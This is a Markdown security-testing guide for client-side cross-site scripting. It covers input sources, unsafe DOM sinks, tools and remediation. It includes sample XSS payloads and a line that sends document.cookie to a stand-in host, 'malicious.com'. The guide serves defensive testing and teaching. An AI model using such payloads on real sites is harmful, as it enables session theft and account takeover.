 Here’s the documentation for **WSTG-CLNT-07** in Markdown format:


# WSTG-CLNT-07: Testing for Cross-Site Scripting (XSS) - Client-Side

## Summary

Client-side Cross-Site Scripting (XSS) vulnerabilities occur when a web application allows an attacker to inject and execute malicious scripts within the context of a user's browser. Unlike server-side XSS, these vulnerabilities originate in the client-side code due to improper handling of dynamic content.

## Objective

To identify and exploit client-side XSS vulnerabilities caused by insecure JavaScript code, enabling attackers to execute unauthorized scripts, steal sensitive data, or perform malicious actions.

## How to Test

### Step 1: Identify Input Points
1. Locate areas where the application dynamically updates the DOM based on user input, such as:
   - URL parameters
   - Query strings or fragments
   - Form fields
   - Cookies, localStorage, or sessionStorage

2. Inspect client-side JavaScript for functions that process user inputs and directly update the DOM.

---

### Step 2: Analyze JavaScript Code
1. Review JavaScript code for unsafe patterns, including:
   - Direct assignment to `innerHTML`, `outerHTML`, or `document.write()`.
   - Usage of `eval()` or similar functions.
   - Appending unsanitized user inputs to DOM elements.

2. Identify sources, sinks, and sanitization mechanisms in the code:
   - **Sources**: Inputs that influence the DOM (e.g., `window.location`, `document.cookie`).
   - **Sinks**: Functions that update the DOM (e.g., `innerHTML`, `appendChild()`).
   - **Sanitization**: Check if user inputs are properly sanitized or escaped.

---

### Step 3: Test for XSS
1. Inject XSS payloads into identified input points, such as:
   ```javascript
   <script>alert('XSS')</script>
   "><img src=x onerror=alert(1)>
```

2. Test dynamic scenarios:
    
    - Update URL parameters and observe changes in the DOM.
    - Modify values in cookies or storage and check for script execution.
3. Use browser developer tools to monitor DOM changes and script execution.
    

---

### Step 4: Validate Exploitability

1. Confirm if the injected script executes in the browser.
2. Assess the potential impact, such as:
    - Stealing cookies, tokens, or sensitive data.
    - Performing unauthorized actions on behalf of the user.

---

## Tools

- **Browser Developer Tools** for inspecting DOM and testing JavaScript inputs.
- **Burp Suite** or **OWASP ZAP** for intercepting and modifying HTTP requests.
- **DOM XSS Scanner** for analyzing client-side scripts for vulnerabilities.
- **Custom JavaScript Payloads** for advanced testing:
    
    ```javascript
    "<script>fetch('https://malicious.com?cookie='+document.cookie)</script>"
    ```
    

---

## Remediation

1. **Use Secure DOM Manipulation Methods**:
    
    - Replace `innerHTML` with `textContent` or `createElement()`.
2. **Sanitize and Escape User Inputs**:
    
    - Use libraries like DOMPurify to sanitize inputs before updating the DOM.
    - Apply proper escaping for context-specific outputs (HTML, JavaScript, URL).
3. **Avoid Dangerous JavaScript Functions**:
    
    - Do not use `eval()`, `document.write()`, or similar functions.
4. **Implement Content Security Policy (CSP)**:
    
    - Enforce a restrictive CSP to prevent unauthorized script execution.
5. **Perform Regular Code Reviews and Testing**:
    
    - Periodically audit client-side code for insecure patterns.

---

## References

- [OWASP Testing Guide - Client-Side XSS](https://owasp.org/www-project-testing/)
- [OWASP Top Ten - A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [Google Security - DOM XSS Prevention Cheat Sheet](https://developers.google.com/web/fundamentals/security/csp)



